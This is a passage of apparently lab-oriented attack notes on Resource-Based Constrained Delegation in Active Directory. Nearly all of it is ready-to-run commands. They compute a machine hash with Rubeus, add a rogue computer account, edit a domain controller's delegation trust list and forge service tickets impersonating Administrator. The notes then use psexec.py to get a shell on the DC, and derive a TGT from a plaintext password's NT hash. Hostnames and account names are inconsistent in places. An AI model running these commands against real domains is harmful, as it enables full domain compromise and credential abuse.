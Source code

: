 #### Get hash of our account, then get ticket.

```powershell
# Get hash of computer account
.\Rubeus.exe hash /password:pass123 /user:ZEN$ /domain:ZENCORP.local

# Get TGS 
.\Rubeus.exe s4u /user:ZENPC$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.zencorp.local /ptt

# Get access
ls \\dc01.inlanefreight.local\c$
```

### <mark style="color:yellow;">RBCD From Linux</mark>

Create computer account

```bash
addcomputer.py -computer-name 'ZENPC$' -computer-pass pass@123 -dc-ip 10.129.205.35 zencorp.local/john.doe
```

Add account to targeted computer's trust list

```bash
rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX zencorp\\john.doe:passwd@123
```

Request TGT, then S4U2Self to get TGS, adn then S42UProxy for valid TGS for specific SPN

```bash
getST.py -spn cifs/DC01.zencorp.local -impersonate Administrator -dc-ip 10.129.205.35 zencorp.local/ZENPC:pass@123
```

Use ticket to pwn

```bash
KRB5CCNAME=Administrator@cifs_DC01.inlanefreight.local@ZENCORP.LOCAL.ccache psexec.py -k -no-pass dc01.zencorp.local
```

### <mark style="color:yellow;">RBCD When MachineAccountQuota Is Set to 0</mark>

If unable to create a computer account, or if account has no SPN set we can still perfor the attack [https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

Get TGT using account NT hash

```bash
# Convert to NT
pypykatz crypto nt 'B3thR!ch@rd$'

# Get TGT
getTGT.py ZENCORP.LOCAL/john.doe -hashes :de3a12633d7ded97bb47cd6641b1a392 -dc-ip 10.129.205.35
```
